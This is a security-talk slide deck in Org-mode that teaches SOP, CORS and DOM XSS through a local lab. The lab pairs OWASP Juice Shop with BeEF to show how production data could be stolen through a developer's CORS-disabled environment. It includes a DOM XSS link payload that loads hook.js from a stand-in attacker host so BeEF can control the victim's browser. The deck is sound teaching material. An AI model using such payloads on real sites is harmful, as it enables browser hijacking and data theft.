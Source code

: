 # Created 2018-06-17 Sun 20:59
#+OPTIONS: num:nil toc:nil
#+OPTIONS: tags:nil
#+OPTIONS: reveal_center:nil reveal_control:nil width:100% height:100% prop:nil
#+OPTIONS: reveal_history:t reveal_keyboard:t reveal_overview:t
#+OPTIONS: reveal_slide_number:nil
#+OPTIONS: reveal_title_slide:"<h2>%t</h2><h3>%d<h3>"
#+OPTIONS: reveal_progress:t reveal_rolling_links:nil reveal_single_file:nil
#+OPTIONS: auto-id:t
#+TITLE: Exploiting Local Dev Environments
#+DATE: Mallory's Coming For You!
#+AUTHOR: Zach Roof
#+REVEAL_HLEVEL: 1
#+REVEAL_MARGIN: 0
#+REVEAL_MIN_SCALE: 1
#+REVEAL_MAX_SCALE: 1
#+REVEAL_ROOT: .
#+REVEAL_TRANS: default
#+REVEAL_SPEED: default
#+REVEAL_THEME: sts
#+REVEAL_EXTRA_CSS: css/local.css
#+REVEAL_INIT_SCRIPT: previewLinks: false
#+REVEAL_PLUGINS: (classList highlight)
#+REVEAL_HIGHLIGHT_CSS: %r/lib/highlight.js/src/styles/monokai-sublime.css
#+REVEAL_HLEVEL: 2
* Exploiting Local Dev Envs
** Table Of Contents                                                    :toc:
- [[#exploiting-local-dev-envs][Exploiting Local Dev Envs]]
  - [[#running-locally][Running Locally]]
  - [[#talk-scope][Talk Scope]]
  - [[#technical-outline-first-half][Technical Outline: First Half]]
  - [[#technical-outline-second-half][Technical Outline: Second Half]]
  - [[#same-origin-policy-sop-refresher][Same Origin Policy (SOP): Refresher]]
  - [[#same-origin-policy-sop-refresher-cont][Same Origin Policy (SOP): Refresher (CONT.)]]
  - [[#cors-refresher][CORS: Refresher]]
  - [[#juice-shop][Juice Shop]]
  - [[#cross-site-scripting-xss][Cross-Site Scripting (XSS)]]
  - [[#xss-mallory-attacks][XSS: Mallory Attacks]]
  - [[#xss-mitigation-advice][XSS: Mitigation Advice]]
  - [[#dom-xss][DOM XSS]]
  - [[#dom-xss-cont][DOM XSS (CONT.)]]
  - [[#dom-xss-cont-1][DOM XSS (CONT.)]]

** Running Locally
   :PROPERTIES:
   :CUSTOM_ID: h-E21B7A9D-3C3C-40D1-9F1C-E1659ACE6C55
   :END:
+ Update ~/etc/hosts~
  + ~127.0.0.1	evil.example.com~
  + ~127.0.0.1	victim.example.com~
  + ~127.0.0.1	prod.example.com~
+ BeEf Server Credentials
  + Username/Password: ~beefy~
+ Running
  + ~git clone https://github.com/zachroof/community.git~
  + cd $REPO/syntaxcon
  + ~docker-compose up~
    + Be careful, this runs an intentionally vulnerable web application
    + The prod elasticsearch instance will be seeded with data 2 minutes after
      running ~docker-compose up~
** Talk Scope
- Focus on the /faulty/ security assumptions that we make
  - DevOps Engineers and Developers
- Technical exploit that you can run locally
- Key takeaway
  - Not /necessarily/ patching the exploit
  - It's about /patching/ our assumptions
    - Transition from /unknown/ unknowns...
      - To /known/ unknowns
** Technical Outline: First Half
- Refresher
  - Same Origin Policy (SOP)
  - Cross-Origin Resource Sharing (CORS)
  - Cross-Site Scripting (XSS)
    - Dom XSS
- 2x video if needed

** Technical Outline: Second Half
- Exercise Goal: Exploit Local Dev Environment To Steal Production Data
- Developer
  - Running local Elasticsearch CE 5.6.9 database
    - CORS disabled to "help" development workflow
  - Signed into a corporate VPN
- Production Elasticsearch CE 5.6.9 database
  - On corporate VPN
  - CORS enabled
- BeEF (Browser Exploitation Framework)

** Same Origin Policy (SOP): Refresher
- Browser security mechanism
- /Origin/ within SOP
  - Where did the request /originate/ from?
  - If your browser is visiting ~evil.example.com~'s homepage
    - For outgoing requests, ~evil.example.com~ is the origin
      - Perspective of browser
- Nutshell: SOP restricts how origins can interact
- ~evil.example.com~'s Javascript is limited in how it can interact with ~api.bank.example.com~
  - Crucial if you have authentication cookies scoped to ~api.bank.example.com~

** Same Origin Policy (SOP): Refresher (CONT.)
- How can the SOP be "relaxed"?
  - Cross-Origin Resource Sharing (CORS)

** CORS: Refresher
- A HTTP response header that's sent to the browser
- Hmm, what happens if a server sends the CORS header: ~Access-Control-Allow-Origin: *~?
  - ~evil.example.com~'s Javascript has more access to the server
    - In certain situations, ~evil.example.com~ can submit any type of REST
      request to the server
- Ever seen ~Access-Control-Allow-Origin: *~ before?
  - Non-PROD systems
    - Allows for a high variation of Origins
      - Ex: localhost, 127.0.0.1, dev.example.com
- Hmm, how could XSS take advantage of ~*~ CORS access?

** Juice Shop
- We will explore XSS within OWASP's Juice Shop (aka fAmazon Juice Shop)
- Evil Mallory
- Victim Bob

** Cross-Site Scripting (XSS)
- Key idea
  1. Mallory injects evil Javascript into ~victim.example.com~
  2. Bob visits ~victim.example.com~ and evil Javascript is loaded into his browser
- After Mallory obtains XSS on a victim's browser
  - What could she do?

** XSS: Mallory Attacks
- Steal authentication cookies
- Make arbitrary requests to other sites on the internet
  - Or local network...

** XSS: Mitigation Advice
- Q: What is the common advice on prohibiting XSS?
  - Client-side validation?
  - Server-side validation?
- A: Server-side validation
  - Server will drop request if it has unexpected characters
- "Client-side validation is bad practice, MAN!"
  - We are told this as a beginner
  - Is this always true?
    - Moving to known unknowns
** DOM XSS
- A variation of XSS that doesn't involve the server
- Scenario
  - Mallory posts a link on a web forum
  #+BEGIN_SRC http
    http://victim.example.com/#/search?
    q=%3Cscript%20src%3D%22http:%2F%2Fevil.example.com:3000%2Fhook.js%22%3E%3C%2Fscript%3E
  #+END_SRC
  - Victim clicks on the link because he trusts ~victim.example.com~
  - XSS ~<script src="evil.example.com:3000/hook.js"></script>~ is loaded into the page
    - Anything after ~#~ isn't sent to the server

** DOM XSS (CONT.)
- Assumption
  - "Client-side validation is pointless"
- Result
  - Client-side code doesn't validate query string parameters before insertion into the DOM

** DOM XSS (CONT.)
- What is ~hook.js~?
  - Allows the victim's browser to be controlled by Mallory's BeEF server
